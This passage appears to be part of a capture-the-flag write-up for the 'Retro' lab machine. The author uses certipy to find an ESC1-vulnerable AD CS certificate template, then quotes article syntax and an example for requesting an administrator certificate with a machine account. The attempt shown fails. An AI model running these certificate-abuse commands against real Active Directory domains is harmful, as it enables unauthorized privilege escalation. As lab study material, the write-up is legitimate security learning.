 ```
```

We used certipy to check vulneable certificates and was able to see that the certicifiacte template `RetroClients` is vulnearbal to an `ESC1` attack  :

```
┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad find -u 'BANKING$'@RETRO.VL -p password -dc-ip 10.10.126.241 -stdout -vulnerable
```

<img src="attachments/90d71551ead89475e9c0ea6764616e50.png" />

Tried the attack from this [article](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adcs/esc1).

>**ESC1 - Linux - Machine Account**
>If a template has enrollment rights for domain computers, a machine account can be used to request a certificate to perform the attack. This requires having a hash or password value for a machine account or if the domains machine account quota is greater than zero, adding a new machine ourselves to complete the attack.

```
# Syntax
certipy req -u <Computer$> -p <Password> -dc-ip <DC-IP> -ca <CA> -template <Template> -upn <User> -target <CA-IP>

# Example
certipy req -u EvilComputer$ -p Password123! -dc-ip 10.10.10.100 -ca Security-SRV2019-CA -template ESC1 -upn administrator -target 10.10.10.14
```

Failed to obtain the certificate as the size was too low.
